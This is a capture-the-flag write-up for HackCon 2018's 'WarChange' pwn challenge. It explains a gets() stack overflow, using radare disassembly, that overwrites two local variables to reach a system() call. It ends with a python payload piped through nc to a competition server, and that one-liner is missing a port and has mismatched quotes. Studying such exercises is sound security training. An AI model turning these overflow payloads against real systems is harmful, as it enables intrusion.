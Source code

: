 ```yaml
---
layout: writeup
ctf: HackCon'18
challenge: "WarChange"
author: Ringr0p
date:   2018-08-17
categories: [pwn]
tags: [ ctf, challenge, programming, write-up ]
---
```

  - CTF NAME: [Hackcon 2018](https://hackcon.in/)
  - Category: PWN
  - Binary: [pwn2](http://ringr0p.github.io/binary/hackcon2018-vuln)
  - Difficulty: Easy

This challenge was the third challenge of the pwn category in the [Hackcon CTF 2018](https://hackcon.in/).

Let's open the binary:

```
Hola, So you again this time I am more secure. Lets see what u got

```

It request an input. And this input is managed with the vulnerable **gets()** function.
Using radare we can disassemble the main function:

```
|	    0x004006bc      488d45b0       lea rax, [local_50h]                                                                         
|           0x004006c0      4889c7         mov rdi, rax                                                                                 
|           0x004006c3      e888feffff     call sym.imp.gets           ;[3] ; char *gets(char *s)                                       
|           0x004006c8      488b05b10420.  mov rax, qword obj.stdin    ; [0x600b80:8]=0x7f7996732a00                                    
|           0x004006cf      4889c7         mov rdi, rax                                                                                 
|           0x004006d2      e889feffff     call sym.imp.fflush         ;[2] ; int fflush(FILE *stream)                                  
|           0x004006d7      817dfcefbead.  cmp dword [local_4h], 0xdeadbeef    ; [0xdeadbeef:4]=-1                                      
|       ,=< 0x004006de      740a           je 0x4006ea                 ;[4]                                                             
|       |   0x004006e0      bf01000000     mov edi, 1                                                                                   
|       |   0x004006e5      e886feffff     call sym.imp.exit           ;[5] ; void exit(int status)                                     
|       `-> 0x004006ea      817df8bebafe.  cmp dword [local_8h], 0xcafebabe    ; [0xcafebabe:4]=-1                                      
|       ,=< 0x004006f1      750f           jne 0x400702                ;[6]                                                             
|       |   0x004006f3      bfeb074000     mov edi, str.cat_flag.txt    ; 0x4007eb ; "cat flag.txt"                                     
|       |   0x004006f8      b800000000     mov eax, 0                                                                                   
|       |   0x004006fd      e82efeffff     call sym.imp.system         ;[7] ; int system(const char *string)                            
|       `-> 0x00400702      488b05670420.  mov rax, qword sym.stdout    ; loc.stdout ; [0x600b70:8]=0x7f7996733760 ; "`7s\x96y\x7f"     
|           0x00400709      4889c7         mov rdi, rax                                                                                 
|           0x0040070c      e84ffeffff     call sym.imp.fflush         ;[2] ; int fflush(FILE *stream)                                  
|           0x00400711      b800000000     mov eax, 0                                                                                   
|           0x00400716      c9             leave                                                                                        
\           0x00400717      c3             ret

```

Now the objective is clear: we have to conduct the flow of the program through the **system()** call. To do that, we have to overflow the local_50h buffer
and overwrite the two local variables at rbp-0x8 (local_8h) and at rbp-0x4 (local_4h) with, respectivly, 0xcafebabe and 0xdeadbeef (N.B in little endian ;) )

Then here is the exploit and the flag:

```code
python -c 'print ("a"*72 + '\xbe\xba\xfe\xca\xef\xbe\xad\xde")' | nc 139.59.30.165
```

![placeholder](/assets/writeups/HackCon2018/warchange/flag.jpg)
